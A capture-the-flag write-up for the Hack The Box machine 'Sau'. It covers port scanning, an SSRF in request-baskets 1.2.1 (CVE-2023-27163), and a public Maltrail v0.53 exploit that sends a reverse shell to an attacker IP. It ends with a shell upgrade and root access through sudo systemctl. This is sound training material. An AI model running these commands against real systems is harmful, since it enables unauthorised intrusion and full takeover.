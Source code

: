 # [Sau](https://app.hackthebox.com/machines/sau)

```bash
nmap -p- --min-rate 10000 10.10.11.224 -Pn 
```

![Alt text](img/image.png)


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,55555 10.10.11.224
```

![Alt text](img/image-2.png)


While opening port (55555) via HTTP protocol, I see such an web application.

![Alt text](img/image-1.png)


I see that it is powered by 'request-baskets' and version of this is '1.2.1'.


I searched publicly known exploit and found [this](https://github.com/entr0pie/CVE-2023-27163) whose CVE id is '**CVE-2023-27163**'.


![Alt text](img/image-3.png)

Let's access URL 'http://10.10.11.224:55555/xrvfmp'.

![Alt text](img/image-4.png)


I see that it is 'Maltrail' application and version of this 'v0.53'.

I again searched publicly known exploit and found [this](https://github.com/spookier/Maltrail-v0.53-Exploit) vulnerability.

```bash
python3 exploit.py 10.10.16.7 1337 http://10.10.11.224:55555/xrvfmp
```

![Alt text](img/image-5.png)


I got reverse shell from port (1337).

![Alt text](img/image-6.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-7.png)


user.txt

![Alt text](img/image-8.png)


For privilege escalation, I just run `sudo -l` command.

![Alt text](img/image-9.png)


I see that `systemctl` binary can be exploited via `root` user.

I already get this binary's exploitation for privilege escalation on [Gtfobins](https://gtfobins.github.io/gtfobins/systemctl/#sudo).

```bash
sudo /usr/bin/systemctl status trail.service
!sh
```

![Alt text](img/image-10.png)


root.txt

![Alt text](img/image-11.png)